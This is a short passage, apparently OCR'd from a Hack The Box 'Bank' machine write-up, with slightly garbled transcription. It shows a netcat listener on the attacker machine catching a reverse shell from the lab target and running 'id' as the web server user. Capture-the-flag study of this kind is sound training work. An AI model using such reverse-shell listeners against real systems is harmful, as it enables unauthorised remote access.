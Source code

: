 ![](Maszyny/Linux/Bank/Pasted%20image%2020210813131836.png)

-(kali kali)-[~/htb/bank]
rlwrap nc -lvnp 9000
listening on [any] 9000
connect to [10.10.14.19] from (UNKNOWN) [10.10.10.29] 52522
SOCKET: Shell has connected! PID: 5535
id
uid=33(ww-data) gid=33( ww-data) groups=33 (ww-data)
Submit
